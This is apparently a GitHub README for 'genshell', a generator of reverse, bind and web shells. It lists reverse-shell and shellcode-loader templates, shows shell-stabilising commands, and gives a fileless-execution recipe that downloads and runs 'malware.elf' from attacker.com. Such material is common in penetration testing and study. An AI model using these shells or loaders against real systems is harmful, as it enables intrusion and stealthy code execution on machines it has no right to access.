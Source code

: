 # Shells

![Demo](./assets/demo.gif)

A collection of reverse, bind and web shells from all over the internet.

## Setup

a) With [pipx](https://github.com/pypa/pipx).

~~~ bash
pipx install git+https://github.com/dadevel/shells.git@main
~~~

b) With `pip`.

~~~ bash
pip install --user git+https://github.com/dadevel/shells.git@main
~~~

## Usage

Just run `genshell` and select one of the many templates.

Some advanced templates require manual steps:

- [TCP reverse shell in C++ as Windows DLL](./genshell/templates/reverse/connector/windows-cpp/)
- [TCP reverse shell with Cosmopolitan Libc](./genshell/templates/reverse/connector/cosmopolitan/)
- [TCP reverse shell in Go](./genshell/templates/reverse/connector/golang/)
- [Reverse shell listener with Tmux and Socat](./genshell/templates/reverse/listener/tmux-socat-multiplexer/)
- [Python ELF loader via `memfd_create()` on Linux](./genshell/templates/exec/memfd-create.py)
- [Python shellcode loader on Linux](./genshell/templates/exec/mmap-ctype.py)
- [Meterpreter loader for Windows](./genshell/templates/exec/windows-minildr/)

## Tips

Metasploit payloads like `windows/shell_reverse_tcp` are one of the few reverse shells for Windows that support interactive commands.

### Linux PTY

Spawn a PTY and stabilize your shell with Python.

~~~ bash
python -c 'import pty;pty.spawn("/bin/bash")'
# ctrl+z
echo "stty sane;stty rows $LINES cols $COLUMNS;export TERM=xterm;" | xclip -sel clip
stty raw -echo && fg
# paste clipboard and press enter
~~~

Alternatively spawn a PTY with `script`.

~~~ bash
script -q -c /bin/bash /dev/null
~~~

### Linux memfd_create()

Create file in memory with Python 3.8 or newer ([source](https://twitter.com/randomdude999_/status/1629875560401780736)).

~~~
$ python3 -c "from os import*;fork()or(setsid(),print(f'/proc/{getpid()}/fd/{memfd_create(sep)}'),kill(0,19))"
/proc/139856/fd/3
$ curl -o /proc/139856/fd/3 https://attacker.com/malware.elf
$ /proc/139856/fd/3
~~~

### Other interesting tools

- [Kraken](https://github.com/kraken-ng/kraken), multi-language webshell
- [xc](https://github.com/xct/xc), reverse shell for Linux and Windows written in Go
